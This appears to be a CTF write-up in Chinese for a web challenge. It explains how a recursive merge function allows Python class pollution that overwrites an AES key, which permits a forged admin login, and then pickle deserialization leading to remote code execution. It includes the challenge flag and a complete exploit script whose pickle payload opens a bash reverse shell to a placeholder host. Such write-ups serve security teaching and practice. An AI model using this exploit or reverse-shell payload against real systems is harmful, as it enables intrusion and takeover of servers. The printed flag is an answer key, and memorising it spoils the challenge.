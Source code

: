 * **题目名称：** Important_key

* **题目类型：** WEB

* **题目难度：** (中等）

* **出题人：** fru1ts

* **考点：**  

1. python原型链污染
2. pickle反序列化

* **描述：**  都不知道密钥看你们怎么反序列化

* **flag：** XSCTF{p0ll8ti0n_p1ckl3_mast3r_79316}

* **Writeup：** 

  思路：在`login`路由直接给了一个pickle反序列化入口，这里则可以实现RCE。但是要进入反序列化需要进行身份认证，admin才能进入，所以需要进行伪造。可以看到用的是AES-CBC解密，但是需要密钥，而代码中密钥是随机产生的，好像伪造不了。但看到`/`路由，使用了`merge`函数递归合并属性，存在典型的原型链污染。可以利用原型链污染修改AES的密钥，用自己的密钥加密"admin"，然后进行pickle反序列化。由于是无回显所以需要反弹shell。

  exp如下：
  
  ```python
  import requests
  import base64
  import pickle
  from verify import *
  
  
  url=""
  
  def index(key):
      data={
              "__init__":{
                  "__globals__":{
                      "User":{
                          "key":base64.b64encode(key)
                      }
                  }
              }
          }
      res=requests.post(url=url,json=data)
      print(res.text)
  
  def login(key): 
      class EXP():
          def __reduce__(self):
              command=r"__import__('os').system('bash -c \"bash -i >& /dev/tcp/vps/port 0>&1\"')"
              return (eval,(command,)) 
      
      p=EXP()
      op=pickle.dumps(p)
      b64op=base64.b64encode(op)
      # print(b64op)
  
      user=User()
      enc=user.encrypt("admin",key)
      # print(enc)
  
      data={
          "role":enc,
          "data":b64op
      }
      r=requests.post(url=url+"login",data=data)
      print(r.text)
  
  if __name__=="__main__":
      key=os.urandom(16)
      index(key)
      login(key)
  ```
  
  
